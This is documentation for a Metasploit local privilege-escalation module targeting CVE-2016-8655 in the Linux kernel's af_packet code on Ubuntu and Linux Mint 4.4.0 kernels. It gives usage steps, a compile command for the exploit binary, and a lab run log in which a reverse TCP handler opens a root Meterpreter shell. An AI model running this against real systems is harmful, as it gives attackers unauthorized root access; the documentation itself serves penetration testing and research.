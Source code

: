 ## Description

  This module exploits a race condition and use-after-free in the
  `packet_set_ring` function in `net/packet/af_packet.c` (`AF_PACKET`) in
  the Linux kernel to execute code as `root` (CVE-2016-8655).

  The bug was initially introduced in 2011 and patched in 2016 in version
  4.4.0-53.74, potentially affecting a large number of kernels; however
  this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels
  4.4.0 < 4.4.0-53, including Linux distros based on Ubuntu, such as
  Linux Mint.

  The target system must have unprivileged user namespaces enabled,
  two or more CPU cores, and SMAP must be disabled.

  Bypasses for SMEP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on:

  * Linux Mint 17.3 (x86_64)
  * Linux Mint 18 (x86_64)
  * Ubuntu 16.04 (x86_64)
  * Ubuntu 16.04.2 (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/af_packet_chocobo_root_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **TIMEOUT**

  Race timeout (seconds). (default: `600`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executable

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o chocobo_root -s -pie -static chocobo_root.c
```


## Scenarios

  ```
  msf > use exploit/linux/local/af_packet_chocobo_root_priv_esc 
  msf exploit(linux/local/af_packet_chocobo_root_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/af_packet_chocobo_root_priv_esc) > run
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.iDLrwN3S4.c' (24885 bytes) ...
  [*] Writing '/tmp/.rMIvkKT' (207 bytes) ...
  [*] Launching exploit (Timeout: 600)...
  [*] Sending stage (853256 bytes) to 172.16.191.209
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.209:38530) at 2018-05-07 03:07:21 -0400
  [+] Deleted /tmp/.iDLrwN3S4.c
  [+] Deleted /tmp/.iDLrwN3S4
  [+] Deleted /tmp/.rMIvkKT

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.209
  OS           : Ubuntu 16.04 (Linux 4.4.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

